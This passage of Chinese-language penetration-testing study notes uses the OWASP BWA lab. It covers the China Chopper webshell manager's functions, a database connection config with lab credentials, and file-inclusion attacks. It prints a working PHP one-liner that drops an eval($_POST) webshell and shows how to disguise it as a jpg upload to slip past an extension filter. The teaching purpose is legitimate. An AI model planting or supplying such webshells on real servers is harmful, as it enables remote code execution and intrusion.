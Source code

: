 


## 4.中国菜刀的三大功能

- 文件管理
- 数据库管理
- 虚拟终端

数据库管理：

![image-20220901223018762](D:\Ronnie\.assets\image-20220901223018762.png)

```mysql
<T>MYSQL</T>
<H>localhost</H>
<U>root</U>
<P>owaspbwa</P>
```

右击，进入数据库：

![image-20220901223236403](D:\Ronnie\.assets\image-20220901223236403.png)

---



## 5.文件包含漏洞

### 1.通过主程序里的include包含

![image-20220902103502243](D:\Ronnie\.assets\image-20220902103502243.png)

例如：

![image-20220902121843856](D:\Ronnie\.assets\image-20220902121843856.png)

### 2.本地文件包含

- 通过文件上传木马文件
- 执行包含上传的木马文件，生成恶意php代码文件

```shell
if (($uploaded_ext == "jpg" || $uploaded_ext == "JPG" || $uploaded_ext == "jpeg" || $uploaded_ext == "JPEG")
```

上面提到文件上传漏洞的高安全级别下，对文件的后缀做了限制，所以我们只能上传图片文件

**a. 制作一句话木马图片文件duck1.jpg：**

- 准备shell.php文件，内容如下：

```php
<?fputs(fopen("shell2.php", "w"),'<?php eval($_POST[password]);?>')?>
```
